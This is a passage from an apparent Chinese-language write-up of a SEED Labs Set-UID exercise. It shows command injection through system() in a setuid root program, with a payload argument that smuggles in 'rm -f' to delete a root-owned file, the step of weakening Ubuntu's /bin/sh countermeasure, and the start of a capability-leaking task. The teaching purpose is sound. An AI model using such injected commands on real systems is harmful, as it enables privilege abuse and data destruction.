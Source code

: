 ```c
  // execve(v[0], v, NULL);

  return 0 ;
}
```

``` shell
# echo "test" > /root/file_of_root
$ sudo chown root ./a.out
$ sudo chmod 4755 ./a.out

```

注：下一步之前可能需要禁用Ubuntu的对策：

```shell
sudo ln -sf /bin/zsh /bin/sh
```

恢复Ubuntu的对策可以用：

```shell
sudo ln -sf /bin/dash /bin/sh
```



然后：

```shell
[02/02/22]seed@VM:~/.../envvar-setuid$ ./a.out "/root/file_of_root;rm -f /root/file_of_root"
test

```

payload：`./a.out "/root/file_of_root;rm -f /root/file_of_root"`即会删除`file_of_root`。

如果将代码中的`system()`换成`execve()`，则攻击不再有效。

## Task 9: Capability Leaking

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>

void main()
{
  int fd;
  char *v[2];

  /* Assume that /etc/zzz is an important system file,
   * and it is owned by root with permission 0644.
   * Before running this program, you should create
   * the file /etc/zzz first. */
  fd = open("/etc/zzz", O_RDWR | O_APPEND);        
  if (fd == -1) {
     printf("Cannot open /etc/zzz\n");
     exit(0);
  }

  // Print out the file descriptor value
  printf("fd is %d\n", fd);

  // Permanently disable the privilege by making the
  // effective uid the same as the real uid
  setuid(getuid());                                

```